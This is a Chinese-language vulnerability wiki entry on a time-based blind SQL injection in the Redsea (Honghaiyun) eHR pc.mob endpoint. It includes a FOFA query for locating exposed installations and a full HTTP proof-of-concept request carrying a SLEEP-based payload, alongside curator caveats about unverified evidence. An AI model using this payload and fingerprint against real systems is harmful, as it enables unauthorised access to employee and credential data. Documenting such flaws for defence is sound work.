

# 红海云eHR goApp/pc.mob id时间盲注

## 条目说明

- 对象与具体问题：红海云eHR；goApp/pc.mob id时间盲注
- 版本、配置及部署条件：版本未知，MySQL sleep语义
- 认证与权限前提：匿名声称
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- HTTP中保留{{urlescape(...)}}模板函数，未指定引擎不能直接作为原始HTTP请求
- 5秒延迟截图无文本基线/对照，不足以证明全部SQLi后果
- 在野已知与官方升级最高版无公告链接；代码未围栏；缺具体补丁

## 操作风险

延迟探测可能占用数据库连接或影响服务。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

红海云eHRpc.mob 接口存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

影响版本

红海云eHR

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 高 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：body="/RedseaPlatform/skins/images/favicon.ico"

POC/EXP：

GET /RedseaPlatform/goApp/pc.mob?id=1{{urlescape(' AND (SELECT 4509 FROM (SELECT(SLEEP(5)))eUlE) AND 'nPiP'='nPiP)}} HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 6.2) AppleWebKit/532.1 (KHTML, like Gecko) Chrome/41.0.887.0 Safari/532.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: close

## 修复方案

1. 官方处置建议：联系厂商，升级到最高版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
